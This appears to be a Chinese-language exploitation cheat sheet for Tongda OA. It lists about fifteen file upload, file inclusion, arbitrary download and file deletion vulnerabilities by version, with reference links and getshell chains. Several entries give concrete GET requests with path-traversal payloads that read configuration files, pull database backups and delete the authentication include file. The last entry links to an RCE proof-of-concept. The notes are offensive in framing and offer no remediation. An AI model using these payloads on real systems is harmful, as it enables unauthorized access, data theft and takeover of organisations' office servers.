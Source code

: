 - 文件操作

```
(1)【<=11.3】module/upload/upload.php 文件上传
2017版漏洞分析和复现ref：
https://cloud.tencent.com/developer/article/1856837

（2）【2015】前台变量覆盖+SQL注入+文件上传+文件包含getshell
REF：https://www.cnblogs.com/iamstudy/articles/tongdaoa_2015_sql_getshell.html
其中上传点general/reportshop/utils/upload.php在2015修复后在v11.7发现仍然bypass可利用，该功能点分别能造成上传、包含和删除的漏洞影响。
general/reportshop/utils/upload.php?action=upload 文件上传
general/reportshop/utils/upload.php?action=upload&filetype=xls 文件包含
general/reportshop/utils/upload.php?action=upload&filetype=img或attach 文件删除

（3）【<=11.9】/general/netdisk/upload.php 文件上传
REF：https://www.secpulse.com/archives/184090.html

（4）【<=11.8】mobile/api/api.ali.php 文件上传
REF：http://wiki.peiqi.tech/wiki/oa/%E9%80%9A%E8%BE%BEOA/%E9%80%9A%E8%BE%BEOA%20v11.8%20api.ali.php%20%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E.html

（5）【<=11.8】general/hr/manage/staff_info/update.php 文件包含	
REF：https://paper.seebug.org/1499/#getshell

（6）【<=11.9】inc/package/down.php 未授权数据库备份文件下载
GET /inc/package/down.php?id=.<>./.<>./.<>./.<>./bak/TD_OA/文件名
前提：提前用户有对数据库进行备份、备份文件名

（7）【2017旧版以前】/general/approve_center/archive/exportLog.php 未授权文件下载
GET /general/approve_center/archive/exportLog.php?filePath=.<>./.%00./../../webroot/inc/common.inc.php

（8）【2017旧版以前】/module/AIP/get_file.php 未授权文件下载
GET /module/AIP/get_file.php?MODULE=/&ATTACHMENT_ID=.._webroot/inc/oa_config&ATTACHMENT_NAME=php

（9）【2011】general/crm/apps/crm/include/import/export.php 未授权文件下载
GET general/crm/apps/crm/include/import/export.php?errorReportPath=../../../../webroot/inc/oa_config
REF：http://www.wenqujingdian.com/Public/editor/attached/file/20180324/20180324174546_56538.pdf

（10）【ueditor编辑器】/module/ueditor/php/action_upload.php 未授权上传
利用ueditor 1.3.6版本第三方编辑器插件上传漏洞造成的影响：https://www.cnblogs.com/4thrun/p/15807017.html#:~:text=%3C/html%3E-,0x02%20%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0,-%E5%BC%80%E5%8F%91%E8%AF%AD%E8%A8%80%EF%BC%9A.net

（11）【<=11.6】module\appbuilder\assets\print.php 文件删除
GET /module/appbuilder/assets/print.php?guid=../../../webroot/inc/auth.inc.php

（12）【<=11.3】ispirit/im/upload.php 未授权文件上传
REF：
https://www.cnblogs.com/yuzly/p/13607055.html

（13）【<=11.7】/ispirit/im/photo.php 登录绕过+任意文件读取+ssrf
REF：https://www.hacking8.com/bug-web/%E9%80%9A%E8%BE%BEoa/%E9%80%9A%E8%BE%BEOA11.7%E7%BB%84%E5%90%88%E6%8B%B3RCE%E5%88%A9%E7%94%A8%E5%88%86%E6%9E%90.html#:~:text=a%7D_.txt-,%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB,-/ispirit/interface/gateway
组合拳利用链条1

（14）【<=11.7?】/general/file_folder/new/submit.php 登陆绕过+文件上传
REF：https://forum.90sec.com/t/topic/1589

（15）【<=11.6】/general/data_center/utils/upload.php 文件上传（结合漏洞11未授权RCE）
REF:https://xz.aliyun.com/t/8430
POC.py: https://github.com/TomAPU/poc_and_exp/blob/master/rce.py
```